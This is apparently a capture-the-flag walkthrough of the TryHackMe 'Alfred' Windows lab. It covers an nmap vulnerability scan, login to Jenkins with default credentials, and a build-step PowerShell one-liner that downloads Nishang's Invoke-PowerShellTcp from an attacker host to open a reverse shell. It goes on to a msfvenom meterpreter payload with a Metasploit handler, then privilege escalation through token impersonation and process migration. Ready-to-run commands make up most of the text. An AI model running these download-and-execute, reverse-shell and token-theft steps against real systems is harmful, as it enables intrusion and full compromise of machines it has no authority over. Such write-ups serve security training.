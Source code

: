 # Alfred 

## Task1 

Port scanning
```bash
nmap -sC -sV --script vuln -oG alfred.md <Target_IP>
```

The Jetkins located at targetip:8080 and user and pass is admin. After login we go to the project> configuration>build and donwload nishang [Invoke-PowershellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Open the tmux session and sepreate the terminal to two windows. The first one is running `python3 http.server` and the second one is running `nc -lnvp 9001`.

In build console section we need to type:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.119.20:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.119.20 -Port 9001
```

After that we hit the build button and we gain access to the system.

## Task 2 

Generate renverse tcp for with the help of msfvenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe

```

Jetkins build:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Listener
```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
```
This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell.

```
Start-Process "shell-name.exe"
```
## Taks 3 

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:
- User SIDs(security identifier)
- Group SIDs
- Privileges

There are two types of access tokens:
- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

To impersonate user tokens when successfully compromising a system we need to load incognito.

```bash
>load incognito
```
To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available.
```bash
>list_tokens -g
>impersonate_token "BUILTIN\Administrators"
>getuid -g
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

```bash
>ps services.exe
>migrate <PID>
```
